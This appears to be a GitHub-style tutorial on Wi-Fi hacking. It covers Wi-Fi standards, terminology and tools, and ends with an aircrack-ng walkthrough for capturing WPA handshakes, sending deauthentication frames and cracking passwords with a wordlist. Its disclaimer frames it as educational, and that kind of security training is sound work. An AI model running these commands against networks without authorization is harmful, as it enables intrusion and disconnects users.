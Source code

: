 Wi-Fi Hacking Guide

Table of Contents

1. Introduction to Wi-Fi


2. Wi-Fi Generations & Key Terminologies


3. Networking Essentials for Wi-Fi Hacking


4. Tools for Wi-Fi Hacking

Aircrack-ng Suite (Complete Guide)



5. Best Wi-Fi Adapters for Hacking


6. Wi-Fi Attack Scenarios


7. External Resources




---

Introduction to Wi-Fi

Wi-Fi (Wireless Fidelity) is a technology that enables devices to connect wirelessly to a network using radio waves. It operates on different frequency bands (2.4GHz & 5GHz) and follows IEEE 802.11 standards.

Wi-Fi Generations & Key Terminologies

Wi-Fi Generations

802.11b: First widely adopted Wi-Fi standard (2.4GHz, 11Mbps).

802.11a: Operates on 5GHz, faster but less range.

802.11g: Improved speed at 2.4GHz (54Mbps).

802.11n (Wi-Fi 4): Supports both 2.4GHz & 5GHz, higher speeds (600Mbps).

802.11ac (Wi-Fi 5): Optimized for 5GHz, gigabit speeds.

802.11ax (Wi-Fi 6): Better efficiency, supports multiple devices.


Key Terminologies

SSID (Service Set Identifier): Name of a Wi-Fi network.

BSSID (Basic Service Set Identifier): MAC address of the router/AP.

WEP (Wired Equivalent Privacy): Insecure encryption method.

WPA/WPA2/WPA3 (Wi-Fi Protected Access): Secure encryption protocols.

Monitor Mode: Allows packet sniffing on Wi-Fi networks.


Networking Essentials for Wi-Fi Hacking

Understanding the following networking concepts is crucial:

IP Addressing: Identifying devices on a network.

MAC Address: Unique ID for network interfaces.

DHCP & DNS: Assigns and resolves network addresses.

Subnetting: Organizing IP address ranges.

OSI Model: Standard framework for network communication.


Tools for Wi-Fi Hacking

Popular Tools:

Aircrack-ng: Packet capturing & password cracking.

Kismet: Wireless network detector & sniffer.

Wireshark: Network protocol analyzer.

Reaver: WPS attack tool.

Wifite: Automated Wi-Fi attack suite.


Aircrack-ng Suite (Complete Guide)

Installation (Debian-based Linux):

sudo apt update
sudo apt install aircrack-ng

Capturing Handshakes:

1. Enable Monitor Mode:

airmon-ng start wlan0


2. Scan for networks:

airodump-ng wlan0mon


3. Capture handshake:

airodump-ng --bssid [BSSID] -c [CH] -w capture wlan0mon


4. Deauth to force handshake:

aireplay-ng --deauth 10 -a [BSSID] wlan0mon


5. Crack Password:

aircrack-ng -w [WORDLIST] -b [BSSID] capture.cap



Best Wi-Fi Adapters for Hacking

Wi-Fi Attack Scenarios

External Resources

Aircrack-ng Documentation

Kali Linux Wireless Attacks Guide

Wi-Fi Security Research Papers



---

Disclaimer: This guide is for educational purposes only. Unauthorized access to networks is illegal. Always get permission before performing security tests.


